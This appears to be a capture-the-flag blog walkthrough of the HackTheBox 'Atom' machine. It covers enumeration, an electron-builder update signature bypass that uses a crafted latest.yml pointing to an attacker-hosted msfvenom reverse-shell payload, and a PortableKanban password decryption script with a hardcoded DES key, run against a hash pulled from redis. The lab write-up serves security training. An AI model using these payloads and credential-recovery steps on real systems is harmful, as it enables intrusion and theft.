 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

----------------------------------------------------------------------------------------------------

### ENUMERATION

We kick it off with a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom1.png)

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom2.png)

We start off by checking port 80:

We find a possible uname at th end of the page : MrR3boot@atom.htb.

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom7.png)

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom3.png)

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom4.png)

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom5.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom6.png)

----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom8.png)

I renamed the file to d'payload.exe

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom10.png)

- Calculate the hash using the prescribed syntax : 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom9.png)

- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using:

`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom11.png)

Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason.

Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom12.png)

Run it...

Details found :

- jasons creds :

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom13.jpg)

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom17.png)


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom14.png)

We found the pass for redis. 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom15.jpg)



**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom16.jpg)


- We now have the administrator hash ! Awesome!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom18.png)

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * 

#python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom20.jpg)

We now finally have the password of admin. 

Lets try winrm again using these creds.... 


![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Atom_Writeup/images/atom19.jpg)

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

 _Bookmark to recieve the latest writeups!_

----------------------------------------------------------------------------------------------------





